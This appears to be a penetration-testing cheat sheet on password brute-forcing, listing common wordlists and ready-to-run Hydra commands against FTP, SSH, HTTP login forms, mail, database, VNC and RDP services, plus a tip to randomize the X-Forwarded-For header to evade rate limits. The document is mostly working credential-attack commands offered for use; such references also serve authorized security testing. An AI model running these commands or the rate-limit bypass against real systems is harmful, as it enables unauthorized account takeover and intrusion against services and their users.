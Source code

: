 > ⚠️ **PAY ATTENTION:**
> 
> Try smaller specific wordlists before trying rockyou since some passwords are "buried".
> 
> Remember to filter the wordlists if possible.

> ⚠️ **PAY ATTENTION:**
> 
> Try using and randomizing the header `X-Forwarded-For` to bypass rate limit.

### Common Wordlists for Brute Force Attacks  

| Wordlist | Description |
|----------|-------------|
| `/usr/share/wordlists/rockyou.txt` | Commonly used for password brute-force attacks |
| `/usr/share/seclists/Usernames/top-usernames-shortlist.txt` | Suitable for quick brute-force username attempts |
| `/usr/share/seclists/Usernames/xato-net-10-million-usernames.txt` | Used for thorough username brute-forcing |
| [2023_top_200_password](https://github.com/danielmiessler/SecLists/blob/master/Passwords/Common-Credentials/2023-200_most_used_passwords.txt) | Effective for targeting commonly reused passwords |
| `/usr/share/seclists/Passwords/Default-Credentials/default-passwords.txt` | Ideal for trying default credentials |


### Hydra Commands

| Hydra Service | Example Command |
|--------------|----------------|
| ftp         | `hydra -l admin -P /path/to/password_list.txt ftp://192.168.1.100` |
| ssh         | `hydra -l root -P /path/to/password_list.txt ssh://192.168.1.100` |
| http/get | `hydra -L usernames.txt -P passwords.txt www.example.com http-get / -s 80` |
| http/post | `hydra -l admin -P /path/to/password_list.txt http-post-form "/login.php:user=^USER^&pass=^PASS^:F=incorrect"` |
| smtp        | `hydra -l admin -P /path/to/password_list.txt smtp://mail.server.com` |
| pop3        | `hydra -l user@example.com -P /path/to/password_list.txt pop3://mail.server.com` |
| imap        | `hydra -l user@example.com -P /path/to/password_list.txt imap://mail.server.com` |
| mysql       | `hydra -l root -P /path/to/password_list.txt mysql://192.168.1.100` |
| mssql       | `hydra -l sa -P /path/to/password_list.txt mssql://192.168.1.100` |
| vnc         | `hydra -P /path/to/password_list.txt vnc://192.168.1.100` |
| rdp         | `hydra -l admin -P /path/to/password_list.txt rdp://192.168.1.100` |

>**ℹ️ Info:**
>
> This command instructs Hydra to generate and test passwords ranging from 6 to 8 characters, using the specified character set:
> 
> `hydra -l administrator -x 6:8:abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789`|
